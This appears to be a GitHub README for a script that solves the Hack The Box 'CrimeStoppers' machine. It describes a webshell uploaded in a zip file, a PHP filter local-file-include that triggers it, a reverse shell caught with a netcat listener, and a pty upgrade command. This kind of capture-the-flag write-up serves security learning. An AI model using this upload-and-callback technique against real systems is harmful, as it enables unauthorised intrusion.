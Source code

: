 ## Challenge

[CrimeStoppers](https://www.hackthebox.eu/home/machines/profile/120) from Hackthebox.eu

## Description

Uploads a webshell inside a zip file, and then uses a php filter and local file include invoke the php webshell. Running results in a connection back to the ip and port provided as arguments.

## Reference

Originally published in blog posts: https://0xdf.gitlab.io/2018/06/03/htb-crimestoppers.html#request_shellsh

## Usage

```
root@kali:/media/sf_CTFs/hackthebox/crimestoppers-10.10.10.80# ./request_shell.sh  10.10.14.139 8081
[*] Creating php shell and zip file
  adding: shell.php (deflated 5%)
[*] Getting PHPSESSID and CSRF token from /?op=upload
[+] Tokens received:
  PIPSESSID: tdjrjl4571r7ouutpn9aae1133
  CSRF:      d8f36f072d960fcb7110a5acb45668eed3faf78e52bbd268597fdd7ed464fb49
[*] Uploading zip though /?op=upload form
[+] File uploaded to ?op=view&secretname=92ec709161beddd0906c2191ee85b0e9217c682b
[*] Initiating callback to 10.10.14.139:8081
```

```
root@kali:/media/sf_CTFs/hackthebox/crimestoppers-10.10.10.80# nc -lnvp 8081
listening on [any] 8081 ...
connect to [10.10.14.139] from (UNKNOWN) [10.10.10.80] 54104
/bin/sh: 0: can't access tty; job control turned off

$ python3 -c 'import pty;pty.spawn("bash")'
www-data@ubuntu:/var/www$ pwd
/var/www
```
